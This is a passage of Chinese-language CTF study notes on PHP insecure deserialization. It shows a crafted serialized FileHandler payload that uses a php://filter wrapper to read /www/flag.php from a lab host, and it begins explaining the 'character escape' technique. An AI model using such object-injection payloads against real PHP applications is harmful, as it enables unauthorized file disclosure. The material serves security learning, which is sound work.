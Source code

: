 生成payload

```
http://10.1.0.30:8000/?str=
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:62:"php://filter/read=convert.base64-encode/resource=/www/flag.php";s:7:"content";s:0:"";}
```

![image-20240412104854819](16.%E4%B8%8D%E5%AE%89%E5%85%A8%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/image-20240412104854819.png)把base64进行解码，得到flag

# 反序列化字符逃逸

## 前置知识

**特点1**：

php在反序列化时，底层代码是以 ; 作为字段的分隔，以 } 作为结尾，并且是根据长度判断内容的 ，同时反序列化的过程中必须严格按照序列化规则才能成功实现反序列化 ，超出的部分并不会被反序列化成功，这说明反序列化的过程是有一定识别范围的，在这个范围之外的字符都会被忽略，不影响反序列化的正常进行。而且可以看到反序列化字符串都是以";}结束的，那如果把";}添入到需要反序列化的字符串中（除了结尾处），就能让反序列化提前闭合结束，后面的内容就相应的丢弃了。

**特点2**：

长度不对应会报错

**漏洞产生**：

反序列化之所以存在字符逃逸，最主要的原因是代码中存在针对序列化（serialize()）后的字符串进行了过滤操作（变多或者变少）。

**漏洞常见条件**：

序列化后过滤再去反序列化
